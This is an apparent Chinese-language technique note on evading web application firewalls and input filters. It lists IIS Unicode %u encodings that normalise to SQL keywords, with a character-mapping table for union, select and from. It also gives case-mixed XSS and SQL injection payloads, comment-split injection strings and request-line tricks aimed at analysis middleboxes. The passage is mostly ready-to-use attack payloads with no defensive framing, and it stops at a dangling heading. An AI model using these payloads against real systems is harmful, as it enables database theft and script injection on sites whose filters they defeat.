 iis支持对unicode的解析，如：payload为 s%u006c%u0006ect，解析出来后则是 select

另类%u特性: unicode在iis解析之后会被转换成multibyte，但是转换的过程中可能出现：多个widechar可能会转换为同一个字符

如: selec中的e对应的unicode为%u0065，但是%u00f0同样会被转换成为e

    s%u0065lect->select s%u00f0lect->select
    
        

WAF层可能能识别s%u0065lect的形式，但是很有可能识别不了s%u00f0lect的形式。这样就可以利用起来做WAF的绕过

常见三个关键字（union+select+from）的测试情况：

    s%u0045lect = s%u0065lect = %u00f0lect
    u --> %u0055 --> %u0075
    n -->%u004e --> %u006e
    i -->%u0049 --> %u0069
    o -->%u004f --> %u006f -->%u00ba
    s -->%u0053 --> %u0073
    l -->%u004c --> %u006c
    e -->%u0045 --> %u0065-->%u00f0
    c -->%u0043 --> %u0063
    t -->%u0054 -->%u0074 -->%u00de -->%u00fe
    f -->%u0046 -->%u0066
    r -->%u0052 -->%u0072
    m -->%u004d -->%u006d
    
        

**asp/asp.net解析请求**

asp/asp.net在解析请求的时候，允许Content-Type: application/x-www-form-urlencoded的数据提交方式select%201%20rom%20user

* * *

**大小写变化(非WAF，仅过滤绕过)**

    ?id=<sCripT>AleRt(123)</scRIpt> 
    
    ?id=123 uni0n SeLEcT BaNneR FroM v$vERsIon whERe ROwNUm=1 
    
        

* * *

**加粗样式**嵌套（非WAF，仅过滤绕过）

另类

    ?id=1+un/**/ion+sel/**/ect+1,2,3-- 
    
        

**针对中间分析设备**

    Get /test HTTP/1.1 > GET test,randkey.yourloggingdomain.com 
    
    Get /test HTTP/1.1 > GET http://test.randkey.yourloggingdomain.com 
    
    Get /test HTTP/1.1 > GET @test.randkey.yourloggingdomain.com 
    
        

分析设备拼接后:
